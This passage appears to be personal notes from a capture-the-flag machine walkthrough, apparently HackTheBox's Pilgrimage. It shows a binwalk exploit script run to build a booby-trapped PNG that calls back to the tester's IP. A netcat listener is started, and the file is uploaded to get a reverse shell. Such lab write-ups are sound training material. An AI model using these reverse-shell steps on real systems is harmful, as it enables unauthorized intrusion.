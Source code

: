 
malware scan? Lets check
![[Pasted image 20231108091526.png]]
![[Pasted image 20231108092027.png]]

after some digging i found that binwalk was vulnerable
![[Pasted image 20231108092516.png]]
![[Pasted image 20231108092537.png]]

so lets use exploit
![[Pasted image 20231108094155.png]]
```
python3 51249.py Untitled.png 10.10.14.148 1234
```

it creates binwalk_exploit.png

start listener
```
nc -lnvp 1234 
```

upload binwalk_exploit.png to /var/www/pilgrimage.htb/shrunk
![[Pasted image 20231108094715.png]]

and BOOM!
![[Pasted image 20231108094754.png]]
